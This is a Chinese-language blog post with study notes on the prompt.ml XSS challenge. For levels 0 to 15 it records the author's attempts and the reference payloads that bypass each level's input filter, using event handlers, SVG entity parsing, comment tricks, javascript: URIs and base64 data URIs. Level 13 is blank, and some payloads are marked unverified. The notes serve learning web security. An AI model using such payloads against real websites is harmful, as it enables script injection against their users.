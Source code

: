 ```yaml
---
layout: post
title: "prompt.ml 练习"
date: 2017-08-29
categories: Note
---
```


### level0

这是一个很典型的利用 HTML 属性的题目。-。- 但是逗比如我的，跑上来直接来了个 `" onload="prompt(1)`。
囧。。。。后面我查了下资料发觉 input 没有 onload 事件。。。。。。。于是另想它法：`"><img src='xx.png'  onerror="prompt(1)`，然后又看了下参考答案`"><svg/onload=prompt(1)>`，参考答案里还提到一个适用于 IE10（及之前的）
的解决方案，IE10 在加载页面后几乎对所元素都会触发 resize 事件。所以还能这么玩 `"onresize=prompt(1)>`

### level1

这题对 <\/?[^>]+> 这些符号做了过滤，然后我尝试着写了 `"><img src='xx.png'  onerror="prompt(1)` ，然后 0.0 居然就过了。参考答案是 `<svg/onload=prompt(1) `

### level2

这题居然把 等号 和 左边的括号也过滤了。。。。。几经尝试后，我表示无解看了参考答案： `<svg><script>prompt&#40;1)</script>` 啊哈，我终于明白为什么这么喜欢用 SVG 了。这题利用了 SVG 的 XML-ish 特性。SVG 中的实体都会被解析出来。

### level3

= = HTML5 中 `--!>` 也能表示注释结束。 参考答案：`--!><svg/onload=prompt(1)`

### level4

参考答案：`//prompt.ml%2f@ᄒ.ws/✌` 我这边无法验证。

### level5

这题算是第一题的威力加强版，把 '>' 和 onEvent= 都给过滤了。第一想法是利用换行来规避 onEvent= 的过滤，然后就没有然后了。。。。看了参考答案：

  `"type=image src onerror
    ="prompt(1)`

可以覆盖 type 把它变成一个 img 类型，然后 src 报错即可。

### level6

参考答案：`javascript:prompt(1)#{"action":1}`  原来 form 里的 action 也能执行 JavaScript 代码。

### level7

参考答案是：

  "><svg/a=#"onload='/*#*/prompt(1)'
 
  
在第一段闭合了 p 标签并创立自己的新标签及属性，在第二段注释掉多余内容并监听load事件，在最后一段prompt(1)。

### level8

通过特殊符号来实现的，参考答案：`[U+2028]prompt(1)[U+2028]-->`  -。- 我无法验证通过。
http://tools.jb51.net/table/javascript_escape

### level9

参考答案：`<ſcript/ſrc=//⒕₨></ſcript>`  = =  我还是没法验证。

### level10

= = 这道题好萌啊。。。。。 `p'rompt(1)`

### level11

`"(prompt(1))in"`

### level12

使用 base30 encode 。`eval(630038579..toString(30))(1)`

### level13

### levev14

利用 base64 火狐识别大写 BASE64 

  `"><IFRAME/SRC="x:text/html;base64,ICA8U0NSSVBUIC8KU1JDCSA9SFRUUFM6UE1UMS5NTD4JPC9TQ1JJUFQJPD4=`

### level15

level 7 的升级版

 `"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>`

